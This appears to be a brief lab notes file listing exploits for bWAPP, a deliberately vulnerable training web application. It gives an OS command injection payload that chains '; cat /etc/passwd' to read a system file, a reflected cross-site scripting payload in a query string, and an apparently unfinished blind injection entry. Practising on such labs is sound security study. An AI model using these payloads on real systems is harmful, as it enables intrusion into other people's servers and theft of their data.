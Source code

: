 # bWAPP - Exploits

### (1) OS Command Injection (low)
```bash
; cat /etc/passwd
```

### (2) OS Command Injection-Blind (low)
```bash
$
```

### (3) Cross-Site Scripting - Reflected (GET) (low)
```JS
// Input 1: beliebig
// Input 2:
<script>alert("XSS")</script>
// Payload:
?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit
```
